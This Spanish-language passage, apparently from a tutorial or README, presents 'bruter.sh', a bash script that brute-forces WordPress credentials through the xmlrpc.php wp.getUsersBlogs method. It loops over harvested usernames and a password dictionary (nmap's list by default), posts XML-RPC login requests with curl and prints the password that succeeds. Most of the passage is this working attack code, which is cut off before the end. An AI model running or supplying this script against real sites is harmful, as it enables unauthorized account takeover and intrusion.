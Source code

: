 Buscando en el cuerpo de la respuesta podemos ver que nuestro método **wp.getUsersBlogs** está habilitado }:).  


### bruter.sh

**wp.getUsersBlogs** nos permite consultar los blogs creados por un usuario específico pero para poder obtenerlos debemos autenticarnos como un usuario válido de WordPress, gracias a ***getUsers.sh*** ya debemos tener los usuarios válidos en el archivo ***usuarios-wp.txt*** ahora solo resta ejecutar nuestro script y pasarle como parametro el host a atacar y el diccionario pero por defecto utiliza el diccionario de nmap `/usr/share/nmap/nselib/data/passwords.lst`. 

`./bruter.sh `


```shell
#!/bin/bash

if [[ -z $@ ]]; then
	echo -e "\n\tUso: $0 <host> <diccionario>"
	exit 1
fi

host="$1"
diccionario="$2"

if [[ -z $diccionario ]]; then
	diccionario="/usr/share/nmap/nselib/data/passwords.lst"
fi

function ctrl_c(){
	echo -e "\n[!] Saliendo. . .\n"
	exit 1

}

trap ctrl_c INT

declare -r xmlrpc_url="$host/xmlrpc.php"
declare -r data_xml_file="data.xml"

function borrar_arch(){
	rm $data_xml_file 2>/dev/null
}

for username in $(cat usuarios-wp.txt); do



    for password in $(cat $diccionario); do

cat << EOF > $data_xml_file
<methodCall>
	<methodName>wp.getUsersBlogs</methodName>
	<params>
		<param><value>$username</value></param>
		<param><value>$password</value></param>
	</params>
</methodCall>
EOF

        echo "Probando $username:$password"
	if ! [[ $(curl -s $xmlrpc_url -X POST -d @$data_xml_file | grep "Incorrect" &) ]]; then
		    echo -e "\n[+] La contraseña es $password\n"
		    borrar_arch
		    exit 0;
```